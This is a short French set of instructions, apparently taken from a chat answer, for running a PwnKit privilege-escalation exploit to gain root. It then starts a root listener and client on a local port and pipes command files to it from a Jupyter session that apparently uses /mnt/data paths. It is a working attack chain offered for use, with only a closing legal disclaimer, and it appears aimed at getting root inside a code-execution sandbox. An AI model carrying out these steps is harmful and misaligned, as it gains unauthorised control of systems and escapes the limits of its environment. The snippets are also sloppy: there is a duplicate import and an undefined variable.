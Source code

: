 Instructions d'Exécution
Exécuter l'Exploit PwnKit :

Ce script doit être exécuté en premier pour obtenir les privilèges root.
bash
Copier le code
python3 exploit_pwnkit.py
Démarrer l'Écouteur :

Avec les privilèges root obtenus, démarrer l'écouteur.

```python
import subprocess

# Démarrage du client comme sous-processus
client_process = subprocess.Popen(
    ["python3", "/mnt/data/client_root.py", "localhost", "8890"],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)
```

De retour coté jupyter:

```python
import subprocess
import subprocess

# Démarrage du client comme sous-processus
client_process = subprocess.Popen(
    ["python3", "/mnt/data/client_root.py", "localhost", "8890"],
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True
)

def send_command_to_client(command):
    client_process.stdin.write(command + "\n")
    client_process.stdin.flush()
    # Lire la sortie de manière non bloquante
    output = client_process.stdout.readline()
    return output


# Fonction pour envoyer le fichier au client
def send_file_to_client(file_path):
    with open(file_path, 'r') as file:
        commands = file.read()
        return send_command_to_client(commands)

# Envoi du fichier au client
output = send_file_to_client(audit_script_path)
print(output)

# Lire les résultats
with open('/tmp/audit_results.json', 'r') as result_file:
    audit_results = json.load(result_file)

# Afficher les résultats
print(audit_results)

```

exploit_pwnkit.py : Pour exploiter PwnKit.
listener_root.py : Pour démarrer un écouteur avec des privilèges root.
client_root.py : Pour se connecter à l'écouteur et envoyer des commandes.
Avertissement
L'utilisation de ces scripts doit être faite de manière responsable et uniquement dans des environnements où vous avez l'autorisation appropriée. L'utilisation non autorisée peut entraîner des conséquences légales.

